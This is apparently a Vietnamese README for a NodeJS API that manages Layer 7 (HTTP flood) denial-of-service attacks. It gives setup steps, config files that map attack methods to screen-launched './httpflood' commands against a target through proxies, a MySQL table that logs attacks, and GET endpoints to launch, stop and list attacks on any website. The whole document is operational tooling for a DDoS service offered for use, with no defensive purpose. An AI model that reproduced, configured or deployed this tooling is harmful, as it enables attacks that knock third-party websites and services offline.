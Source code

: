 <h2>Trình quản lý API NodeJS cho các cuộc tấn công Lớp 7</h2>

<h4>API này rất an toàn và nhanh chóng (mất 2 lần ping giữa API và phần phụ trợ, tức là ping là 60ms, sẽ chỉ mất 120ms để khởi động cuộc tấn công)</h4>

<h1>Cài đặt:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 15,
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000; // cổng API
const socket_token = "SECRET_TOKEN"; // mã thông báo bí mật của bạn để bảo vệ kết nối TCP
const allowed_ips = ['1.1.1.1']; // IP máy chủ API
```

<h3>Thiết lập cơ sở dữ liệu</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## Sau đó, tải client.js lên máy chủ tấn công và tải api.js, server.json, command.json và settings.json lên máy chủ API

### Proxy ngược

Nên tạo proxy ngược bằng Nginx để sử dụng API của bạn:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Thay thế `'http://backend:3000/api'` bằng URL máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu GET tới API bằng các trường bắt buộc

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API bằng ID tấn công

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

Bạn cũng có thể xem tất cả các cuộc tấn công đang diễn ra và việc sử dụng máy chủ bằng cách gửi yêu cầu GET tới API

GET `https://api.yourdomain.com/api/status`

Bạn cũng có thể dừng tất cả các cuộc tấn công gửi yêu cầu GET tới API

GET `https://api.yourdomain.com/api/stop_all`
